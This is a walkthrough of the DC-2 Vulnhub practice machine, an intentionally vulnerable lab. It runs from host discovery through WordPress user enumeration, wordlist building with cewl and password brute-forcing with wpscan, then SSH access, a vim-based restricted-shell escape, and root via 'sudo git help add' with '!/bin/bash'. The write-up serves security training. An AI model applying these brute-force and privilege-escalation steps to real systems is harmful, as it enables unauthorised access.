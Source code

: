 # DC2 Vulnhub Walkthrough

#### Description

Much like DC-1, DC-2 is another purposely built vulnerable lab for the purpose of gaining experience in the world of penetration testing.

As with the original DC-1, it's designed with beginners in mind.

Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.

Just like with DC-1, there are five flags including the final flag.

And again, just like with DC-1, the flags are important for beginners, but not so important for those who have experience.

#####In short, the only flag that really counts, is the final flag.


 # Scaning
  
  ### Reconnaissance 
  
Sudo netdiscover


![Screenshot from 2023-01-19 01-55-20](https://user-images.githubusercontent.com/108471951/213287257-c109721a-ccfa-4bd8-aea1-f42411a9f400.png)

Found the IP 192.168.0.131 


Firstly we have to identify the machine IP address using tool like NetDiscover 

### Nmap

nmap -sC -sV -p- 192.168.0.131


![Screenshot from 2023-01-19 01-57-13](https://user-images.githubusercontent.com/108471951/213287521-1a995297-b7d5-4679-a74d-2eb7047c0463.png)

so we can see it its a worpress site in nmap result.


#### http
#### Edit the /etc/host by giving the target ip and then visit the website.


 By searching the Ip in browser ,we can see in website footer its mentioned it is a wordpress website.

![Screenshot from 2023-01-16 17-00-08](https://user-images.githubusercontent.com/108471951/213288183-7462e484-ff1c-4f78-b14a-70669e3c415b.png)




#### In website there is page Flag and in that I found a Flag1


![Screenshot from 2023-01-16 17-01-22](https://user-images.githubusercontent.com/108471951/213289621-ccb28013-29c2-4dbf-a771-0626321c8454.png)


According to the hint flag1 we have to create a new passwd list pass.txt from website by CEWL tool

#### cewl http://dc-2/ -w pass.txt

![Screenshot from 2023-01-19 02-17-57](https://user-images.githubusercontent.com/108471951/213291277-1f52d69a-ceca-4e99-b21d-99d1a7fed806.png)


So as we know its a wordpress website obviously lets run WPSCAN tool 

wpscan --url http://dc2/ -e

![Screenshot from 2023-01-19 02-24-39](https://user-images.githubusercontent.com/108471951/213292503-55fb0cf3-8a42-4d33-887d-31cfed6f06ac.png)


After enumerateing we found the users [admin, jerry, tom]   


 ![Screenshot from 2023-01-19 02-27-22](https://user-images.githubusercontent.com/108471951/213293686-6845895d-6360-4c74-9e5b-fcf8365bc5ab.png)
 
 

Then make a File users.txt with the user names we found 

#### Bruteforce

wpscan --url http://dc2/ -U user.txt -P pass.txt


![Screenshot from 2023-01-19 23-25-28](https://user-images.githubusercontent.com/108471951/213522815-24944e6b-fb8e-4127-85d8-2a7f245128df.png)

Now we found the passwords for user jerry,tom so lets login to wordpress website using this credntials


http://dc2/wp-login.php

Now lets search for the flags 

After login using jerry's credentials I found a page called flag-2


![Screenshot from 2023-01-16 22-06-11](https://user-images.githubusercontent.com/108471951/213524065-7f9c3c4f-5397-4afe-bc39-ab1e8b06b5e5.png)


## Privilege Escalation


according to the hint flag2 there is another entry point. so as we know the SSH port 7744 open lets enter through it

After using tom credentials I got the Accese






#### shh tom@192.168.0.131 -p 7744

![Screenshot from 2023-01-19 23-36-35](https://user-images.githubusercontent.com/108471951/213525130-600071c3-76db-411b-ac89-66cc4bb0800f.png)

we can see ID command not worked and its restried -rbash shell we have to bypass it 

So I used vim trick 

     vi

    :set shell=/bin/sh       
    
    
  ![Screenshot from 2023-01-19 23-58-23](https://user-images.githubusercontent.com/108471951/213537479-15721eaf-8f9d-462e-add4-70688078789d.png)

    
    

 :shell              
 
 

   ![Screenshot from 2023-01-19 23-58-42](https://user-images.githubusercontent.com/108471951/213537540-c5e80d2b-c506-4639-8a75-742a0a654dba.png)

    
   



now its given us a shell but some commands are not working like id,cat. This could mean that /bin/sh might be missing from the PATH.   

so lets fix it by command 


![Screenshot from 2023-01-20 00-40-13](https://user-images.githubusercontent.com/108471951/213538403-3e9adbb4-7514-4c9d-892f-4a5576381e11.png)




export PATH=/bin:/usr/bin

![Screenshot from 2023-01-20 00-03-58](https://user-images.githubusercontent.com/108471951/213532707-6a2699b5-49f8-4c9b-be87-8ab8033929a5.png)

ls
cat flag3.txt

![Screenshot from 2023-01-20 00-16-26](https://user-images.githubusercontent.com/108471951/213533103-6c4b779a-15d7-4854-b21e-aa01d8d145bc.png)


we found flag3 according to the hint we need to switch user from tom to jerry since we have jerry password we can easily switch to jerry.







cd home

ls


![Screenshot from 2023-01-20 00-29-14](https://user-images.githubusercontent.com/108471951/213535545-d71b9554-e180-435a-9b64-f9029207b3bd.png)


we found jerry.






cd jerry

ls

cat flag4.txt


![Screenshot from 2023-01-20 00-27-29](https://user-images.githubusercontent.com/108471951/213536148-d1b709b4-b8c1-4944-ade8-e1030060b911.png)

Now to fsearch for the final flag in root dirctory but i dont have permission


![Screenshot from 2023-01-25 02-30-38](https://user-images.githubusercontent.com/108471951/214413216-a9b7db4d-d8fa-4461-bdda-137bd4aba57d.png)

so we should add a user

sudo git help add


![Screenshot from 2023-01-25 02-37-15](https://user-images.githubusercontent.com/108471951/214415259-d728377b-4ffd-4ae2-89fb-16e9b45fe76b.png)

now to get root accses 


su jerry

![Screenshot from 2023-01-25 02-40-01](https://user-images.githubusercontent.com/108471951/214416578-eec4a852-b8fc-4458-b05d-ca06d2ff6fa8.png)


now we should use some script for that ....

commands-

sudo git help add 

!/bin/bash

![Screenshot from 2023-01-25 02-43-24](https://user-images.githubusercontent.com/108471951/214418107-990e7978-b5b7-4676-afb1-be4639b18312.png)





now we can go to root folder 


cd /root

ls

cat final-flag.txt




![Screenshot from 2023-01-25 02-44-31](https://user-images.githubusercontent.com/108471951/214418585-3070f7cd-44b3-4b35-8492-3af0446a6510.png)




succesfully we have found the final flag.




@robinpaul
#robinpaul


